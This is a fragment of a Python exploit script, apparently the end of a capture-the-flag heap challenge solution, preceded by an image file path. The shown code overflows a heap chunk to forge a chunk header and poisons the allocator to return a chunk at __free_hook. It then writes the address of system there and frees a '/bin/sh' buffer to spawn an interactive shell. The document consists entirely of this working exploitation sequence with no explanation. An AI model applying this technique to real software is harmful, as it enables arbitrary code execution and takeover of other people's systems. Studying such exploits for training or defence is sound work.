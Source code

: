 ```py
    Alloc(0x28,'a')
    Magic('a'*0x20+p64(0)+p64(0x71)+p64(free_hook))
    Alloc(0x68,'a')
    Alloc(0x68,p64(system_addr))
    gdb.attach(p)
    Alloc(0x20,"/bin/sh\x00")
    Free()



    p.interactive()

exp()
```
